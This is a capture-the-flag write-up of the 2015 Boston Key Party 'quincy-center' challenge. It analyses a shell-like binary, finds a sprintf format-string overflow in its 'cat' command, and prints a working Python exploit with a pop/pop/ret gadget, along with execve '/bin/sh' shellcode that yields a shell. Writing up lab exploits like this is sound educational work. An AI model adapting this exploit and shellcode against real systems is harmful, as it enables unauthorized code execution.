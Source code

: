 ```yaml
---
title: 'quincy-center (uspace) write-up'
author:
  - Brian Pak (Cai)
layout: post
categories:
  - Pwn
ctf: Boston Key Party CTF
year: 2015
---
```

This is a write-up for **quincy-center** challenge, which is the first part of 3-chained pwnable challenge from [Boston Key Party CTF](https://ctftime.org/event/163) last weekend. _You can also read from the [origial post](https://www.bpak.org/blog/2015/03/bkpctf-2015-quincy-center-uspace-write-up/)_.


The binaries were packaged into a <a href="https://www.bpak.org/blog/wp-content/uploads/2015/03/zenhv-e941cb4585deafcf5a1b86050a3ebe7a.gz" target="_blank">tar ball</a>.

> The MBTA wrote a cool system. It's pretty bad though, sometimes the commands work, sometimes they don't...
> Exploit it. (uspace flag) 54.165.91.92 8899

The goal is to get "uspace" flag by exploiting the user space process.

Looking at the output of <span class="lang:default decode:true  crayon-inline">file</span> , these are all x86_64 binaries.

{% highlight bash %}
$ file uspace
uspace: ELF 64-bit LSB  executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.32, BuildID[sha1]=98a138f60a8cfd6239de3181ef118776db40c8e6, stripped
{% endhighlight %}

Opening up in IDA Pro, we see that <span class="lang:default decode:true  crayon-inline">sub_401470</span> has the process loop that prompts "bksh> " like a shell environment.

{% include figure.html src="https://www.bpak.org/blog/wp-content/uploads/2015/03/uspace_1.png" lightbox="quincy-center" title="bksh (uspace) command line parser" %}

First, we see that there are semaphore locking/unlocking for I/O operations, which don't seem to be too important at the moment. Then, the code to parse the command follows.

The general scheme for how the system works will be explained in the next series (kspace), so we will leave out the details of how things are implemented and maintained for now. Understanding the operations (create, list, remove, etc.) abstractly is good enough for exploiting the user space :)

There are total of 6 commands it understands: **ls**, **create**, **rm**, **cat**, **sleep**, and **exit**.

  * ls &mdash; lists files on the system
  * create &mdash; creates a new file on the system
  * rm &mdash; deletes a file on the system
  * sleep &mdash; sleep&#8230;
  * exit &mdash; exits the shell

Let's look at what **create** does for us.

The function takes the first argument to the command as a file name, and reads 256 bytes from the user for the content of the file that is being created. The buffer that is being read is large enough, so there's no overflow here. Then, it "calls" into the kernel "syscall" (via shared memory) with the syscall number 96 and its two arguments (file name & contents buffer). Everything seems normal and sane, so we move on.

{% include figure.html src="https://www.bpak.org/blog/wp-content/uploads/2015/03/uspace_2.png" lightbox="quincy-center" title="create syscall (from uspace to kspace)" %}

Looking through more functions, we find a vulnerable code in **cat**, where it uses <span class="lang:default decode:true  crayon-inline ">sprintf</span> with the file contents buffer as its format string (aka trivial buffer overflow).

{% include figure.html src="https://www.bpak.org/blog/wp-content/uploads/2015/03/uspace_3.png" lightbox="quincy-center" title=""cat" operation (open syscall followed by read syscall)" %}

**v12** is a stack buffer of size 256 bytes, and it's located **bp-0x118**. Also, we noticed that the NX was disabled on this binary, so we could easily jump to our buffer (such as one of our arguments for the command). Conveniently, the pointers to our arguments are on the stack, so we can do a simple pop/pop/ret gadget to get an arbitrary code execution!

<p class="filename">pwn_uspace.py</p>
{% highlight python linenos %}
#!/usr/bin/python
import struct

def p(v):
    return struct.pack('<Q', v)

def u(v):
    return struct.unpack('<Q', v)[0]

f = open('payload', 'wb')

pop_pop_ret = 0x40110F

f.write('create fmt\n'.ljust(0x400, '#'))

payload = '%280x' + p(pop_pop_ret)
f.write(payload.ljust(0x100, '\0'))

f.write(('cat fmt ' + open('shell.bin').read()+ '\n').ljust(0x400, '#'))
{% endhighlight %}

&nbsp;

<p class="filename">shell.asm</p>
{% highlight asm linenos %}
[BITS 64]

section .text
global _start
_start:

lea rdi, [rel binsh]
xor rsi, rsi
xor rdx, rdx
mov rax, 0x3b
syscall

binsh:
db '/bin/sh',0
{% endhighlight %}

&nbsp;

<p class="filename">Pwn it!</p>
{% highlight bash %}
$ python pwn_uspace.py
$ (cat ../uspace/payload; cat -) | sudo ./tz
bksh> bksh>
whoami
uspace
{% endhighlight %}

We have successfully got a shell as *uspace* user.
(Note that since the challenge servers are down, the exploitation is shown in a local setup.)

Once we have arbitrary code running on uspace, we can then perform syscalls that are exposed by the kernel, but not available through a user-space interface (such as syscall number 92, shown below).

{% include figure.html src="https://www.bpak.org/blog/wp-content/uploads/2015/03/uspace_4.png" lightbox="quincy-center" title="kspace syscall handler" %}

The analysis of kspace & tz will be continued on the next post.

Write-up by Cai (Brian Pak) [[https://www.bpak.org](http://www.bpak.org)]